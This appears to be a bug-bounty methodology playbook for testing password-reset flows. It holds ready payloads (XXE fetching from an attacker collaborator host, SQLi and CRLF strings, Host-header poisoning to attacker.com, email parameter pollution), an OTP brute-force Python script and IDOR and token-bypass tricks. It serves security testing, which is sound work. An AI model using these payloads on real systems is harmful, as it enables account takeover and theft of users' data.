

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Phase 3 Playbooks >>](TBD.md) >>*
---

# Password Reset : Master Playbook

> **Goal:** Exploiting the password recovery process to gain unauthorized access to any account (Account Takeover - ATO).
> **Triggers:** "Forgot Password" links, "Reset Password" forms, or "Change Password" (when session-checking is weak).
> **Context:** Password reset flows are the ultimate target. If you can hack this, you can take over any account. We are looking for ways to steal the "reset link" or guess the "OTP code" before the victim does. Think of it like "intercepting a secret letter."
> **Hacker Mindset:** "The server is emailing a secret key to the user. My job is to trick the server into sending that key to *me* instead, or to guess the key if it's too short."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to prioritize your Password Reset attack surface:*



1.  **Can you redirect the reset link by poisoning the `Host` or `X-Forwarded-Host` headers?**
    *   **Yes** → Use **[[#3.1. Host Header Poisoning]]**.
2.  **Does the password reset token leak via the `Referer` header to 3rd parties?**
    *   **Yes** → Use **[[#3.3. Referrer Header Token Leakage]]**.
3.  **Can you send the reset link to two emails using Parameter Pollution (`?email=v&email=a`)?**
    *   **Yes** → Use **[[#4.3. Email Parameter Pollution (HPP)]]**.
4.  **Does the application use a short (4-6 digit) OTP code without rate limits?**
    *   **Yes** → Use **[[#4.1. 4-Digit OTP Brute-Force Script]]**.
5.  **Can you use the same OTP code or reset link multiple times?**
    *   **Yes** → Use **[[#4.4. Token Persistence & Life Cycle]]**.
6.  **Can you bypass a failed OTP check by swapping the response code to `200 OK`?**
    *   **Yes** → Use **[[#6. Advanced Methodology Table (Checklist 2 Expansion)]]** (Response Manipulation).
7.  **Can you change another user's password by swapping `user_id` in the final step?**
    *   **Yes** → Use **[[#5.3. IDOR (Insecure Direct Object Reference)]]**.
8.  **Can you collide accounts by adding spaces to a username (e.g., `" victim "`)?**
    *   **Yes** → Use **[[#5.1. Username Whitespace Collision (CVE-2020-7245)]]**.
9.  **Is the response behavior different for existing users (User Enumeration)?**
    *   **Yes** → Use **[[#2.1. User Enumeration]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Host Poisoning** | Redirecting the mailman to your address. | Link in email points to `attacker.com`. | Password reset via attacker link. | **High/Critical** (P1) |
| **OTP Brute-Force** | Guessing a 4-digit suitcase lock. | No rate limit on OTP entry. | Access granted after 10k attempts. | **High/Critical** (P1) |
| **Referrer Leak** | Dropping your house keys at a public park. | Token found in `Referer` to 3rd party. | Token stolen from analytics/ads. | **Medium/High** |
| **IDOR Swap** | Handing in a valid ticket but asking for a different seat. | Modifiable `user_id` in final form. | Target account password changed. | **High/Critical** (P1) |

---

---

## 2. Phase 1: Surface Discovery & Enumeration

Checking how the application handles requests and identifying users before attacking.

### 2.1. User Enumeration
*   **Methodology**: Test if the response message or time changes based on valid vs. invalid emails.
*   **Indicator of Success (Vulnerable)**:
    *   **Valid User**: `{"message":"Password reset link sent"}`
    *   **Invalid User**: `{"message":"User not found"}`
*   **Time-Based**: If the server takes longer to respond to valid users (due to email sending logic), you can guess valid accounts.

### 2.2. Request Manipulation & XML
*   **Request Method**: Try changing `POST` to `GET`, `PUT`, or `JSON` body to `XML`.
*   **XXE (XML External Entity)**: If the endpoint accepts XML, inject an OAST payload to leak files or internal services.
    ```xml
    <?xml version="1.0" ?><!DOCTYPE r [<!ENTITY xxe SYSTEM "http://attacker.burpcollaborator.net/">]><r>&xxe;</r>
    ```

### 2.3. Injection Checks (SQLi & CRLF)
*   **Time-Based SQLi**: `email=victim@example.com'+(select*from(select(sleep(10)))a)+'`
*   **Command Injection (OAST)**: `email=test@whoami.attacker.burpcollaborator.net`
*   **CRLF Injection**: Injecting headers into the URI: `POST /forgot-password?email=victim@example.com%0d%0aInjected-Header:%20Maelstrom`

---

## 3. Phase 2: Link Poisoning & Header Attack Registry

The gold standard for Account Takeover. We manipulate headers to redirect the reset link to our server.

### 3.1. Host Header Poisoning
Modify the `Host` header in the "Forgot Password" request.
*   **Standard Injection**:
    ```http
    POST /forgot-password HTTP/1.1
    Host: attacker.com
    ```
*   **Advanced Header Spoofing Registry**:
    If the `Host` header is protected, try these:
    - `X-Forwarded-Host: attacker.com`
    - `X-Host: attacker.com`
    - `X-Forwarded-Server: attacker.com`
    - `X-HTTP-Host-Override: attacker.com`
    - `Host: real-target.com` + `@attacker.com` (Check absolute URI routing)

### 3.2. JSON Shadowing / Duplicate Keys
Some backend parsers pick the first email for the database lookup (victim), but the second for delivery (attacker).
```json
{
  "email": "victim@target.com",
  "email": "attacker@mail.com"
}
```

### 3.3. Referrer Header Token Leakage
*   **Method**: Initiate reset, click the link, then click an external link (like an "About Us" or Social Media icon).
*   **Evidence**: Check the outbound request in Proxy History.
    ```http
    GET /fb-icon.png HTTP/1.1
    Host: facebook.com
    Referer: https://app.example.com/reset-password?token=a1b2c3d4e5f6
    ```

---

## 4. Phase 3: Token, OTP & Session Mastery

Attacking the "Secret Code" meant to verify the user.

### 4.1. 4-Digit OTP Brute-Force Script
Use this for endpoints without rate limits (Common in Mobile APIs).
```python
import requests
headers = {"Cookie": "PHPSESSID=CURRENT_SESSION"}
url = "https://target.com/api/reset-otp"
for i in range(10000):
    otp = f"{i:04}" # 0000 to 9999
    res = requests.post(url, data={"otp": otp}, headers=headers)
    if "Success" in res.text:
        print(f"[+] Found OTP: {otp}")
        break
```

### 4.2. Token Predictability & Broken Crypto
*   **Sequencer Analysis**: Capture 100+ tokens and use Burp Sequencer to check randomness.
*   **Guessable Variables**: Check if tokens are just Base64 versions of `email + timestamp`.

### 4.3. Email Parameter Pollution (HPP)
Confuse the backend by sending two email parameters.
```http
# Parameter Pollution Variations
email=victim@mail.com&email=hacker@mail.com
email[]=victim@mail.com&email[]=attacker@mail.com
{"email":["victim@mail.com","attacker@mail.com"]}
```

### 4.4. Token Persistence & Life Cycle
1. **Reuse**: Try using the same token twice (Send the final "Set Password" request again).
2. **Old Token**: Request 2 links and try to use the first one (it should be invalidated).
3. **Session Invalidation**: Ensure the token expires after logout or password change.

---

## 5. Phase 4: Critical Account Takeover Bypasses

Elite logic flaws uncovered during deep audits.

### 5.1. Username Whitespace Collision (CVE-2020-7245)
*   **Step 1**: Register `" victim "` (with spaces).
*   **Step 2**: Reset password for your account.
*   **Step 3**: Use the received token to try and reset the password for the real `"victim"`.
*   **Why**: The app might trim spaces at the wrong time in the flow.

### 5.2. Heritage Narrative: Using Companies Email
> **Expert Scenario**: While inviting users into your account/organization, you can also try inviting company emails and add a new field `"password": "example123"`. in the request. You may end up resetting a user password.
*   **Source**: Check target's GitHub Repo members or `hunter.io`.
*   **The Trap**: Some invites allow setting a password for the new user; intercept this to try and forcefuly set passwords for existing admins.

### 5.3. IDOR (Insecure Direct Object Reference)
*   **Variation A**: Change `user_id=123` to `victim_id=456` in the final "Update Password" request.
*   **Variation B**: Passwords reset via API:
    ```json
    POST /api/changepass
    {"email":"victim@email.com","password":"new_password"}
    ```

---

## 6. Advanced Methodology Table (Checklist 2 Expansion)

| Attack Type | Payload / Method |indicator of Success |
| :--- | :--- | :--- |
| **Bypass** | Use Your Token on Victims Email | Reset via `email=victim@gmail.com&token=$YOUR-TOKEN$` |
| **Poisoning**| HTML Injection in Host Header | `Host: attacker">.com` (Triggers XSS in link delivery) |
| **Logic** | Remove/Nullify Token | Try `token=` or `token=Null` or `token=0000000000` |
| **Logic** | Token Swapping | Try an array of old tokens: `token=[old1,old2]` |
| **Bypass** | Wildcard SQLi | Try `%` or `*` in the email/token field to trigger 1st match. |
| **Security** | Weak Password Policy | Test if `password=" "` (single space) is accepted. |
| **Logic** | Response Manipulation | interecept FAIL response and swap with SUCCESS code. |
| **Logic** | User-Specific Homograph | Register with `vtictim` (look-alike char) and reset. |
| **Logic** | Whitespace Normalization | Register `"user "`, reset, use token on `"user"`. |

---

### **// BASELINE REPEATER TEMPLATES //**

**Baseline 1: Initiate Reset**
```http
POST /forgot-password HTTP/1.1
Host: app.example.com
Content-Type: application/x-www-form-urlencoded

email=victim@example.com
```

**Baseline 2: Set New Password**
```http
POST /reset-password HTTP/1.1
Host: app.example.com
Content-Type: application/x-www-form-urlencoded

token=a1b2c3d4e5f6&new_password=Pass123!&confirm_password=Pass123!
```

---

### REFERENCE & RESOURCES
- [Twitter Tuhin 1729 Thread](https://twitter.com/tuhin1729_/status/1437471718142976007)
- [Account Takeover via Reset Misconfig](https://speakerdeck.com/tuhin1729/account-takeover-via-exploiting-misconfigured-password-reset-feature)
- [Abusing Password Reset Functionality](https://speakerdeck.com/tuhin1729/abusing-password-reset-functionality)
- [Hubspot Full Account Takeover (Omer Hesham)](https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5)

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Phase 3 Playbooks >>](TBD.md) >>*
